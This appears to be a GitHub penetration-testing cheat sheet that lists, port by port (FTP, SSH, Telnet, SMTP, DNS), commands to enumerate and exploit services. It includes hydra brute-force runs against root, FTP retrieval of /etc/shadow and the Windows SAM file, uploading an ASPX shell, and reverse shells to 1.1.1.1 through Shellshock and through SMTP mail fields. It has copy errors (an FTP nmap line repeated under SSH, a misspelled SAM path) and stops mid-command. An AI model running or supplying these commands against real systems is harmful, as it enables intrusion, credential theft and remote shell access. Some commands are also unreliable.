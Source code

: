 > Adding constantly content, depending on free time :)

> Instead of writing a list of tasks to perform on each port/service or using old tools, I will write the full command with arguments to enumerate and (possibly) exploit it with newest tools. 
>``$ip`` refers to simply the variable assigned with ``export ip=10.10.10.10`` 
> Remember to **switch** between wordlists if one just doesn't give out results



General
------------
  ##### Enumeration
  * Banner: 
    * `nc -vn $ip [PORT]`
  ##### Exploitation
  * Reuse credentials from other local services
  * ` searchsploit [SERVICE NAME]+[VERSION]`
  
## Common TCP ports 
-------------
### 21 (FTP)
  ##### Enumeration
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Connect and try to download/upload files (even if you can't ``cd`` into that directory): 
    * ``get /etc/shadow `` 
    * ``get C:\\Windows\\system3\\config\\SAM`` 
    * ``put shell.aspx``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ftp -t 1``

### 22 (SSH)
  ##### Enumeration
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Reuse private key from other machines
  * Shellshock:
    * ``ssh root@$ip 'nc 1.1.1.1 80 -e /bin/bash'``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh``
    
### 23 (Telnet)
  ##### Exploitation
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip telnet -t 1``
    
### 25 (SMTP)
  ##### Enumeration
  * Enum users
    * `smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $ip`
  ##### Exploitation
  * Send mail with malicious parameters: 
    * ``ehlo server.com ``
    ``mail from: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``rcpt to: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``data
    Subject: nc 1.1.1.1 80 -e /bin/bash ``
    
 ### 53 (DNS)
  ##### Enumeration
  * Zone Transfer:
    ``dig @axfr @$ip server.com +nocookie
